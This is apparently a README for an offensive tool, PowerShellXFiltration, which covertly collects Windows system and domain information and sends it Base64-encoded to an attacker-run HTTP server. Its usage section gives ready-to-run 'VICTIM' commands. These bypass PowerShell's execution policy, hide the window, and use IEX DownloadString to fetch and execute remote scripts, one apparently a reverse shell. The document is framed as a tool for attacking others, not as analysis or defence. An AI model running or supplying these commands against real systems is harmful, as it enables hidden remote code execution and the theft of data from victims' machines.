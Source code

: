 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example
1. Change the listening IP/Port in `server.py` (default is `0.0.0.0:8000`).
2. Change the IP/port of your Python server in `client_exf.ps1`.
3. Run:
```
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_rvs.ps1');"
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_exf.ps1');"
```
